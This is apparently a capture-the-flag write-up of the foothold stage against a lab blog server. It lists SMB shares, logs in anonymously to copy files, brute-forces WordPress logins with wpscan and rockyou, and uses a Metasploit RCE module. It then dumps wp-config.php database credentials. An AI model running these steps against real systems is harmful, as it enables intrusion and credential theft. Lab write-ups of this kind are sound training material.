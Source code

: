 ## Exploitation

### Foothold
1. List the SMB shares:
```sh
smbclient -L 10.10.105.124
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BLOG

```

2. Anon login to share and exfiltrate files
```sh
smbclient //10.10.105.124/BillySMB -U " "%" "

smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

```
3. In the blog there are two active users: *kwheel, bjoel*
4. Using wpscan we can bruteforce the list of users and get: *kwheel / cutiepie1*
```sh
wpscan --url http://blog.thm -U user.txt -P /usr/share/wordlists/rockyou.txt
```

5. Having the login we can use metasploit payload multi/http/wp_crop_rce and get a session. After we can check the wp-config.php file for DB connection
```txt
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```